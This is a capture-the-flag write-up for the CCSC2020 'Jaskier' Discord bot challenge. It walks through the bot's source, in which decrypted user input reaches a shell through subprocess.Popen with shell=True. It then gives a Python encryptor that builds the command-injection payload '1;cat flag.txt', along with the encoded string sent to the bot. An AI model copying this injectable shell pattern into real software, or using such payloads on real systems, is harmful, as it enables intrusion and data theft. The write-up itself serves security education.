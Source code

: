 # CCSC2020
![Banner](banner.png)
## WriteUps for the Cyprus Cyber Security Challenge

![Jaskier Challenge](Jaskier.JPG)

At this challenge, we were 
ded with an automated Discord bot - Jaskier - which had the following functionalities:
!help !frappe !ls !pwd !viewcode <function> !revenc <string>

### !help
```
| Jaskier: |
==============================
!frappe

Return a frappe for you

!ls

Returns the contents of the home directory

!pwd

Returns the current directory

!viewcode <function>
  
Returns the code of the given function. Be careful with that one!
Available functions: decrypt, hmask, h_rotl, blockify, cnt, revenc, pwd, ls, frappe

!revenc <string>
  
Reverses an encrypted string
Example of reversing 'Hello World': !revenc SJVsbG9Ap2+yzGEA|
```
Thus I started playing around with these functions
The result of !ls returned 4 files:
.bashrc
.profile
.bash_logout
flag.txt

The goal became obvious: *Find a way to inject code from the revenc function so that to cat the flag.txt file and get the flag*. 

After gathering all the functions together with the help of the !viewsource function, and reassemblying the parts together I was  able to view the complete source code of the bot:

```python
BLOCK_SIZE = 2
TABLE_DIM = 4

def decrypt(ct):
    dec = [] 
    blocks = blockify(ct, BLOCK_SIZE, b'\x00') 
    for blk in blocks:
        blk_int = int.from_bytes(blk, byteorder='big')
        for n in range(TABLE_DIM, -1, -1):
            a,b = cnt(blk_int, TABLE_DIM, n)
            blk_int = h_rotl(blk_int, a, TABLE_DIM, b)
        dec.append(blk_int.to_bytes(BLOCK_SIZE, byteorder='big'))
    return b''.join(dec).strip(b'\x00')
def hmask(size, idx):
    return 2**size-1 << idx*size
#masking: setting size-1 bits on and shift them by idx*size 

def h_rotl(pt, rot, size, idx):
    """
    Horizontal left rotation. 
    """
    m = hmask(size, idx)
    blk = pt & m 
    #turning off idx*size bites from pt
    rot = rot % size
    #modulo
    r = ((blk << rot) | (blk >> (size - rot))) & m
    return pt ^ blk | r

def blockify(inpt, size, pad):
    return [inpt[i:i+size].ljust(size, pad) for i in range(0, len(inpt), size)]
    
def cnt(pt, size, idx):
    a,b = 0,0
    pt = pt >> idx * size
    for _ in range(size):
        if pt % 2 == 0: a+=1 
        else: b += 1 
        pt = pt >> 1
    return a,b

def revenc(ctx, params):
    try:
        dec_in = decrypt(base64.b64decode(params)).decode('utf-8')
        getResult = subprocess.Popen(f'echo {dec_in} | rev', shell=True, stdout=subprocess.PIPE).stdout
        result = getResult.read()
        await ctx.channel.send(result.decode())
        print(dec_in)
    except Exception as e:
        print(e)
        await ctx.channel.send("Ops, something went wrong..")  
```
This particular line caught my attention, since it was passing the result of the decryption function into a subprosess as a variable {dec_in} via shell (shell = True)! 
```python 
        getResult = subprocess.Popen(f'echo {dec_in} | rev', shell=True, stdout=subprocess.PIPE).stdout
```
Therefore all the environment variables and file globs could be accessed if we could inject the payload "1;cat flag.txt". 
By using the semicolon, we escape the brackets {}, and we assign the value 1 to the variable dec_in and we close the first argument. Then we can execute the command cat and extract the data from the flag file and voila, we have the flag.

The problem now is how can we assign these value to the dec_in variable.

Since we can only view the decryption function, we should create an encryption function, which will be encapsulating the string "1;cat flag.txt" to a form that after being decrypted would result to that plaintext in byte-form.

### Reversing the algorithm:

The cipher text was firstly been "blockified" into 4 by 4 blocks and then padded with null characters so that to match the desired size. Then with hmask() the blocks were shifted horizontaly using the parameters a and b. Since the shifting wasn't constant we had to construct an encyption function and take advantage of the existing cnt() function so that to   the value of a and b. 

### The solution:

The only thing left is to reverse the shifting in the h_rotr() function. Thus by providing the plaintext it can encode it using the same process in reverse. Then we encrypt the result in base 64 since at the decryption process is decrypted from base64 to bytes. Here is the complete source code.
```python
import base64
BLOCK_SIZE = 2
TABLE_DIM = 4

def h_rotr(pt, rot, size, idx):
  m = hmask(size, idx)
  blk = pt & m
  rot = rot % size
  r = ((blk >> rot) | (blk << (size - rot)))  & m #We change the shifting to reverse the decryption process
  return pt ^ blk | r

def encrypt(pt):
  enc = []
  blocks = blockify(pt, BLOCK_SIZE, b'\x00')
  for blk in blocks:
      blk_int = int.from_bytes(blk, byteorder='big')
      for n in range(TABLE_DIM):
          a,b = cnt(blk_int, TABLE_DIM, n)
          blk_int = h_rotr(blk_int, a, TABLE_DIM, b)
      enc.append(blk_int.to_bytes(BLOCK_SIZE, byteorder='big'))
  print(enc)
  return b''.join(enc)
  
def blockify(inpt, size, pad):
  return [inpt[i:i+size].ljust(size, pad) for i in range(0, len(inpt), size)]

def cnt(pt, size, idx):
  a,b = 0,0
  pt = pt >> idx * size
  for _ in range(size):
    if pt % 2 == 0: a+=1 
    else: b += 1 
    pt = pt >> 1
  return a,b

def hmask(size, idx):
  return 2**size-1 << idx*size

s = b'1;cat flag.txt'
print(s)
a = base64.b64encode(encrypt(s))
print(a)
```
We pass the output to the Jaskier bot and we get the flag

*!revenc kWtswbSAZmwxx47U2NQ=*

#### flag: CCSC{w1th_g3r4lt_0f_R1via_al0ng_c4me_th1s_b0t}
***
